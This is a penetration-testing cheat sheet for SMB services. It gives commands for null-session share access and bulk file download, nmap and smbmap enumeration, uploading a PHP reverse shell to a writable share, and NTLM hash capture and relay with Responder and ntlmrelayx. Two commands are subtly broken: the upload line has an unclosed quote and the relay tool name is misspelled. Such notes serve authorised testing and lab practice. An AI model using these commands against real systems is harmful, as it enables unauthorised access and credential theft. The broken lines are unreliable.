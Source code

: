 ```yaml
---
description: Server Message Block - Ports 445/139
icon: database
---
```


# SMB

<details>

<summary><mark style="color:orange;"><strong><code>smbclient</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">`Without Credentials`</mark>

{% code title="List Resource list" %}
```sh
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```sh
smbclient -N <IP>
```
{% endcode %}

{% code title="List User Share" %}
```sh
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}

{% code title="Connect to share" %}
```sh
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="Without Credentials" %}
```sh
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="Resources list + Null session" %}
```sh
smbclient -L \\10.10.10.123 -N
```
{% endcode %}

{% code title="Upload PHP reverse shell" overflow="wrap" %}
```sh
smbclient -N //10.10.10.123/Development -c 'put cmd.php tokyo.php
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:red;">`Download a File`</mark>

{% code title="Type this sequence" overflow="wrap" lineNumbers="true" %}
```sh
recurse
prompt
mget *
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Enumeration</strong></mark></summary>

{% code title="Nmap Scan" %}
```sh
nmap --script smb-enum-shares.nse -p445 10.10.10.123
```
{% endcode %}

{% code title="Stealthy Nmap Scan" overflow="wrap" %}
```sh
nmap -n -Pn -vv -O -sV -script smb-enum*,smb-ls,smb-mbenum,smb-os-discovery,smb-s*,smb-vuln*,smbv2* -vv 192.168.1.1
```
{% endcode %}

{% code title="Metasploit Module" %}
```sh
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% hint style="info" %}
#### <mark style="color:orange;">**`smbmap`**</mark>

{% code title="Connect to host" %}
```sh
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" overflow="wrap" %}
```sh
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```sh
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SAMBA</code></strong></mark></summary>

{% code title="Download file" overflow="wrap" %}
```sh
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>NTLM</code></strong></mark> <mark style="color:purple;"><strong>Relay Attacks</strong></mark></summary>

{% hint style="danger" %}


{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}

</details>
